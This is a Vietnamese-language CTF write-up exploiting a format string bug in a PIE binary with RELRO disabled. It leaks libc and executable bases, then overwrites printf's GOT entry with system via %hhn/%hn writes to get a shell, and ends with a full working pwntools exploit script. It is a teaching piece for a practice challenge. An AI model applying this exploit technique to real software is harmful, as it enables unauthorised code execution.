 # Format String - Tấn công bảng GOT

**ida:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/9cde148c-cd27-4360-b944-2cc56dc3d965)


nhìn sơ qua thì ko thấy BOF, chỉ có lỗi fmtstr 

**checks:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/d20fa5ae-82f1-4ccd-9501-e436c58cb35e)


**bài này khá lạ so với các bài khác đó là RelRO tắt** 

Với RelRO là No hoặc Partial, bảng GOT nằm trong vùng địa chỉ ghi được nên với lỗi format string, ta hoàn toàn có thể thay đổi bảng GOT thành địa chỉ hàm khác để khi chương trình thực thi PLT, nó sẽ gọi tới hàm đã thay thế.

**ý tưởng giải bài này:**

- lợi dụng việc **RelRO tắt** , ta có thể thay đổi got của printf thành địa chỉ của hàm khác, thứ ta cần lúc này là hàm system, mà trong bài ko có nên ta chỉ có thế lấy ra từ libc => **leak libc base**
- **để ý ở đây là PIE mở, địa chỉ động** , các với các bài ret2libc ta thường làm, nên muốn dùng got vs plt ta cần có địa chỉ exe => **leak exe base**

**bonus:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/62d100cf-1c9c-420c-bdd5-2ed2f8d6ef62)


- cuối cùng ta cần lợi dụng lỗi fmtstr để biến got printf thành địa chỉ system để khi lặp lại fget ta nhập /bin/sh và lấy được shell => Overwrite GOT

### 1. leak libc base

ở rip có địa chỉ **_libc_start_main_ret**, ta sẽ dùng %p để leak địa chỉ này ra, tính offset rồi tìm được địa chỉ base của libc

![image](https://github.com/gookoosss/CTF.-/assets/128712571/f9c6e267-0573-4a21-8bb4-5fcc020def4d)


![image](https://github.com/gookoosss/CTF.-/assets/128712571/d6f4a757-3364-4107-b312-fdf131e30565)



### 2. leak exe base

để ý ảnh trên thì trong stack có nhiều địa chỉ rác, ta sẽ chọn 1 trong những địa chỉ đó để leak ra, từ đó tính offset là ra địa chỉ **exe base**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/1d3ae56c-a734-4e6d-b811-3b7a36e0100f)


**chú ý:**
- nãy h ta chỉ đang làm trên local , nếu thi ctf thực tế thì ta cần tìm file libc hợp với server trước khi leak libc base, nếu ko ta có thể sai offset
- link tìm libc chuẩn: https://libc.blukat.me/

**thành quả sau 2 bước đầu tiên của ta**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/ac832531-9626-4910-859e-b77dda5e080b)


### 3. Overwrite GOT

đến bước khó nhất rồi, h **ta hãy quan sát got của printf và địa chỉ của system trong libc xem sao:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/3ee32f9e-23de-4be6-a5c4-1cfa833683b9)


**got printf là 0x7ffff7dee770, còn system là 0x7ffff7dded60**, để ý thì thấy 2 địa chỉ này chỉ khác nhau mỗi **3byte cuối**, nên lúc này ta sẽ lợi dụng lỗi fmtstr và relro tắt để thay đổi 3 byte cuối địa chỉ got của printf thành địa chỉ của system

**ở đây ta ko thể in 1 lúc 3 byte được vì máy ko chạy nổi, nên theo kinh nghiệm thì lần đầu ta in ra 1 byte cuối trước, lần 2 ta sẽ in 2 byte sau để tránh lỗi** 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/8c2d5906-df54-4041-8ad4-ceffa54a381f)


đến đây ta chạy thử script xem sao:

![image](https://github.com/gookoosss/CTF.-/assets/128712571/5ca8221c-688f-45c0-b2fc-13e5d6a404c7)


**ở stack 0x20 ta gán địa chỉ got của printf nhưng mà bây giờ đã bị gán thành địa của hàm system rồi nè** 

check lại lần nữa xem sao:

![image](https://github.com/gookoosss/CTF.-/assets/128712571/67fcc53d-b6a5-4051-9fe1-3d4e1747ca78)


chuẩn luôn rồi hehe

h chỉ cần nhập **/bin/sh** là lấy được shell rồi

**script:**

```
from pwn import *

context.binary = exe = ELF('./fmtstr6_patched')
libc = ELF('./libc6-amd64_2.31-0ubuntu9_i386.so')
p = process(exe.path)

# vì RelRO nên GOT có thể ghi đọc được, nên ta có thể thay địa chỉ của GOT hàm này thành 1 hàm khác
# GOT rw-
# PLT

gdb.attach(p, gdbscript = '''
b*main+90
c
''')

input()

##################################
### Stage 1: leak libc address ###
##################################

p.sendlineafter(b'string: ',b'%19$p') # leak _libc_start_main_ret
libc_leak = int(p.recvline()[:-1], 16)
libc.address = libc_leak - 0x27023
log.info("libc leak: " + hex(libc_leak))
log.info("libc base: " + hex(libc.address))

##################################
### Stage 2: leak exe  address ###
##################################

p.sendlineafter(b'string: ',b'%11$p')
exe_leak = int(p.recvline()[:-1], 16)
exe.address = exe_leak - 0x12cd
log.info("exe leak: " + hex(exe_leak))
log.info("exe base: " + hex(exe.address))

##################################
###   Stage 3: Overwrite GOT   ###
##################################

part1 = libc.sym['system'] & 0xff # lấy 1 byte cuối của địa chỉ system
part2 = libc.sym['system'] >> 8 & 0xffff # bỏ qua 1 byte, lấy 2 byte sau để in

payload = f'%{part1}c%10$hhn'.encode() # in 1 byte cuối của system
payload += f'%{part2 - part1}c%11$hn'.encode() # in 2 byte sau của system 
payload = payload.ljust(0x20, b'P') # ljust để cố định địa chỉ got của printf trên stack
payload += p64(exe.got['printf']) # thay đổi 1 byte cuối của got
payload += p64(exe.got['printf'] + 1) # bỏ qua 1 byte cuối, thay đổi 2 byte sau
p.sendlineafter(b'string: ', payload )

p.sendline(b'/bin/sh\0')

p.interactive()
```

